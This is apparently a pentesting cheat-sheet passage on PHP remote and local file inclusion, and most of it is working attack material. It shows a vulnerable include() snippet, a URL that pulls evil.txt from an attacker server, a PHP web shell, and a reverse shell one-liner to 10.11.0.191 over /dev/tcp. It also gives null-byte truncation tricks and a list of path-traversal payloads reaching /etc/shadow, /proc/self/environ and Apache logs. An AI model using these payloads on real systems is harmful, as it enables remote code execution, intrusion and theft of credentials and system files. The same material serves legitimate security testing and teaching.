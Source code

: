 `php:expect://whoami`

Remote file inclusion uses pretty much the same vector as local file inclusion.

A remote file inclusion vulnerability lets the attacker execute a script on the target-machine even though it is not even hosted on that machine.

RFI's are less common than LFI. Because in order to get them to work the developer must have edited the php.ini configuration file.

This is how they work.

So you have an unsanitized parameter, like this
```
$incfile = $_REQUEST["file"];
include($incfile.".php");
```
Now what you can do is to include a file that is not hosted on the victim-server, but instead on the attackers server.
```
http://exampe.com/index.php?page=http://attackerserver.com/evil.txt
```
And evil.txt will look like something like this:
```
<?php echo shell_exec("whoami");?>
```
`Or just get a reverse shell directly like this:`
```
<?php echo system("0<&196;exec 196<>/dev/tcp/10.11.0.191/443; sh <&196 >&196 2>&196"); ?>
```
So when the victim-server includes this file it will automatically execute the commands that are in the evil.txt file. And we have a RCE.
Avoid extentions

Remember to add the nullbyte %00 to avoid appending .php. This will only work on php before version 5.3.

If it does not work you can also add a ?, this way the rest will be interpreted as url parameters.



-------------------------------------------------------------------------------------------------------------
# Local file inclusion (LFI) payloads

`../../../../../../etc/passwd`

`....//....//....//....//....//etc/passwd`

You can also try to use those insted of `/etc/passwd`
```
/etc/issue
/etc/passwd
/etc/shadow
/etc/group
/etc/hosts
/etc/motd
/etc/mysql/my.cnf
/proc/[0-9]*/fd/[0-9]*   (first number is the PID, second is the filedescriptor)
/proc/self/environ
/proc/version
/proc/cmdline
/var/log/apache2/access.log
```

